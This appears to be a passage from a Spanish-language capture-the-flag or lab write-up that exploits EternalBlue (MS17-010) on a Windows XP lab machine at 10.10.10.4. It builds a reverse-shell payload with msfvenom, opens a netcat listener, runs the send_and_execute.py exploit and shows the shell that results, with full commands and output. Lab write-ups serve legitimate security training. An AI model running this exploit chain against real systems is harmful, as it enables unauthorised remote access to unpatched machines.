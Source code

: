 ```bash
eternalblue_exploit8.py  eternalchampion_poc.py   eternalsynergy_leak.py  mysmb.pyc              shellcode
```

* La variante se llama **send_and_execute.py** y no es necesario que la modifiquemos, pero si necesitamos un Payload que será una Reverse Shell para podernos conectar a la máquina víctima.

* Muy bien, ahora hagamos el Payload con **Msfvenom**:
```bash
msfvenom -p windows/shell_reverse_tcp -f exe LHOST=Tu_IP LPORT=443 -o Eternal_Blue.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: Eternal_Blue.exe
```

* Si bien esta es una forma, también podemos especificar la plataforma y la arquitectura del sistema operativo así:
```bash
msfvenom -p windows/shell_reverse_tcp -f exe LHOST=Tu_IP LPORT=443 EXITFUNC=thread -a x86 --platform windows -o Eternal_Blue.exe
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: Eternal_Blue.exe
```

* Ya con esto tenemos todo preparado, ya solo activamos una **netcat** antes del final:
```bash
nc -nvlp 443
listening on [any] 443 ...
```

* Y activamos el Exploit:
```bash
python2 send_and_execute.py 10.10.10.4 Eternal_Blue.exe                                    
Trying to connect to 10.10.10.4:445
Target OS: Windows 5.1
Using named pipe: browser
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x86059da8
SESSION: 0xe228e3e8
...
```

* Vemos la **netcat** y ya estamos dentro:
```batch
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.10.4] 1038
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.
.
C:\WINDOWS\system32>whoami
whoami
'whoami' is not recognized as an internal or external command,
operable program or batch file.
.
C:\WINDOWS\system32>cd C:\
cd C:\
.
```